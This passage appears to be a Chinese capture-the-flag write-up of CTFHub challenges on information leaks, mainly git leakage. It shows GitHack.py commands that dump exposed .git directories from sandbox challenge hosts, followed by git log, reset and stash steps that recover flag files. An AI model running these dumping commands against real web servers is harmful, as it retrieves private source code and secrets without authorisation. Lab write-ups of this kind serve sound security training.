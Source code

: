 ![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751465594949-566e641c-981d-442c-abb8-ad39c03dffd3.png)

发现`$10010cb6de4616ede8b328b9d2554a28.txt`尝试访问，`10010cb6de4616ede8b328b9d2554a28.txt`成功获取flag

### git泄露
#### Log
安装python2、githack、git

```powershell
C:\Python27\python.exe GitHack.py http://challenge-5cb803c5533f39b4.sandbox.ctfhub.com:10800/.git/
```

`git log`查看log

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751523892795-f8c42f79-82e2-4007-a08a-60699dc9cfbb.png)

发现`add flag`，回退上一版本

```powershell
git reset --hard HEAD^
git reset --hard HEAD~1
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751524591972-d600143a-875e-4a6f-a4b7-922d7bacf1c0.png)

查看txt文件

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751524606929-52272e92-f9f8-402a-a9e2-0731f7a8bfca.png)

#### Stash
```powershell
C:\Python27\python.exe GitHack.py http://challenge-ca3ba3c6234445cf.sandbox.ctfhub.com:10800/.git/
```

`git stash show`

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751524904004-c8356782-0eb8-4f8e-b449-f3823b7ca5c4.png)

`git stash pop`查看文件

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751524983598-b2564bb4-2e1d-4afa-80e0-dee849e4582a.png)

#### Index
```html
python GitHack.py http://challenge-2a69d53086d643a3.sandbox.ctfhub.com:10800/.git/
```

查看index文件

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751614871262-c3ccd0fe-17a3-4e37-ae23-642dc5bdc922.png)

查看`1588776130569.txt`

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751614905943-56234417-5752-4780-8d81-80dbd37c4f4b.png)
